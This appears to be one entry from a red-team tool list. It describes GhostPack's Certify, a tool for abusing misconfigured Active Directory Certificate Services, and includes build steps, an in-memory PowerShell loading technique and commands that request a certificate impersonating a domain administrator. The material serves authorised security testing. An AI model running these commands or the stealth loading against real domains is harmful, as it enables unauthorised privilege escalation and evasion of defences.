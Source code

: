 ### [🔙](#tool-list)[Certify](https://github.com/GhostPack/Certify)

Certify is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS).

Certify is designed to be used in conjunction with other red team tools and techniques, such as Mimikatz and PowerShell, to enable red teamers to perform various types of attacks, including man-in-the-middle attacks, impersonation attacks, and privilege escalation attacks.

**Key features of Certify:**
 
- Certificate creation
- Certificate signing
- Certificate import
- Certificate trust modification

**Install: (Compile)** 

Certify is compatible with [Visual Studio 2019 Community Edition](https://visualstudio.microsoft.com/vs/community/). Open the Certify project [.sln](https://github.com/GhostPack/Certify), choose "Release", and build.

**Install: (Running Certify Through PowerShell)** 

If you want to run Certify in-memory through a PowerShell wrapper, first compile the Certify and base64-encode the resulting assembly:

```bash
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Certify.exe")) | Out-File -Encoding ASCII C:\Temp\Certify.txt
```

Certify can then be loaded in a PowerShell script with the following (where "aa..." is replaced with the base64-encoded Certify assembly string):

```
$CertifyAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("aa..."))
```

The Main() method and any arguments can then be invoked as follows:

```
[Certify.Program]::Main("find /vulnerable".Split())
```

Full compile instructions can be found [here](https://github.com/GhostPack/Certify#compile-instructions).

**Usage:** 

```bash
# See if there are any vulnerable templates
Certify.exe find /vulnerable

# Request a new certificate for a template/CA, specifying a DA localadmin as the alternate principal
Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin
```
